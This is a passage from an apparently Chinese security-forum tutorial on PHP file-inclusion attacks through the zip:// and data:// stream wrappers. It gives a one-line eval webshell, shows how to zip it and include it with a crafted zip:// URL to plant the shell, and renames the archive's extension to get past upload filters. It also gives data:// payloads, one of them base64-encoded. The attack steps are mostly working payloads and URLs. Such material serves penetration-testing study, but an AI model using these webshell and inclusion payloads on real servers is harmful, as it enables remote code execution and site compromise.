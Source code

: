 1. php版本大于等于php5.3.0
2. 对allow\_url\_include不做要求。
3. 对allow\_url\_fopen不做要求。

姿势：  
构造zip包的方法同phar：

写一个木马shell.php，其内容为`<?php @e val($_POST[v]);?>`，打包成zip压缩文件格式的压缩包，如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8e11daa0c88b900c0cb0e794e18c04a39e123fc0.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8e11daa0c88b900c0cb0e794e18c04a39e123fc0.png)

但是使用zip伪协议，需要指定绝对路径，而且压缩包文件和压缩包内的文件之间得用`#`，还要将`#`给URL编码为`%23`，之后填上压缩包内的文件。

```php
http://192.168.1.4/fileinclude.php?file=zip://D:/phpStudy/PHPTutorial/WWW/test.zip%23shell.php
```

先访问该url地址，然后马儿就写进去了。

若是使用相对路径，则会getshell失败。

**注意**：这里需要注意的和`phar://`中的注意一样，其中`test.zip`必须得是以zip压缩文件格式压缩，其它像rar、7z这样的压缩文件格式就不行了。不过`test.zip`的后缀可以不是zip，可以是像`test.jpg`，甚至`test.111`这样的后缀都行。这里就涉及到了绕过了，如果zip后缀不让上传，那么就修改为`test.111`这样的后缀肯定不会被拦截了，这时就能成功：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-04a29ff323027ac710de93fa59e7417deae797d7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-04a29ff323027ac710de93fa59e7417deae797d7.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6169c3eac1fba7874747e463b38d61318e849c5b.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6169c3eac1fba7874747e463b38d61318e849c5b.png)

### data://

数据流封装器，和`php://`相似，都是利用了流的概念，将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的。

利用条件：

1. php版本大于等于php5.2
2. allow\_url\_fopen = On
3. allow\_url\_include = On

姿势一：

```php
fileinclude.php?file=data:text/plain,<?php phpinfo();?>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5c8c3327fa5bc7a5e46f9b7f5dbc1eae0deaed2f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5c8c3327fa5bc7a5e46f9b7f5dbc1eae0deaed2f.png)

姿势二：

```php
fileinclude.php?file=data:text/plain;B ase64,PD9waHAgcGhwaW5mbygpOz8%2b
```
